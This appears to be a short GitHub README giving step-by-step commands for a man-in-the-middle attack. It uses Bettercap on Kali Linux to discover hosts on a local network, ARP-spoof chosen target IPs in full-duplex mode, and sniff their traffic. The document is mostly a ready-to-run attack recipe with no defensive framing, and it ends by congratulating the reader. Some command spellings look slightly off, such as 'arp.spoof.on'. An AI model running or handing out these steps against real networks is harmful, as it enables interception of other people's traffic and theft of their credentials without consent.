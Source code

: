 # INSTRUCTIONS:
1. Open a terminal on kali linux and install Bettercap tool

2. For installation run
&emsp;&emsp;&emsp;$ sudo su <br>
&emsp;&emsp;&emsp;$ apt-get install bettercap

3. Or clone the git repository of Bettercap from github to your kali machine

4. Run the following commands for the target ip addresses on the network, <br>
&emsp;&emsp;&emsp;Open a terminal <br>
&emsp;&emsp;&emsp;$ sudo bettercap <br>
&emsp;&emsp;&emsp;$ net.probe on  (To discover the targets) <br>
&emsp;&emsp;&emsp;$ net.recon on (To discover more targets on the network) <br>
&emsp;&emsp;&emsp;$ net.show (To display target ip addresses) <br>
&emsp;&emsp;&emsp;Now we can see all the ip addresses in our network

5. Now set the fullduplex mode to true  <br>
&emsp;&emsp;&emsp;$ set arp.spoof.fullduplex true

6. Then give the targets by seperating with commas
&emsp;&emsp;&emsp;$ set arp.spoof.targets ip1,ip2,ip3....

7. Now run the following commands to start the attack <br>
&emsp;&emsp;&emsp;$ arp.spoof.on
&emsp;&emsp;&emsp;$ net.sniff.on

8. Now check the attack by using any browser, if the bettercap is capturing the packets then the attack is working properly.

9. To exit the attack run
&emsp;&emsp;&emsp;$ exit

10. That's it, you did it.

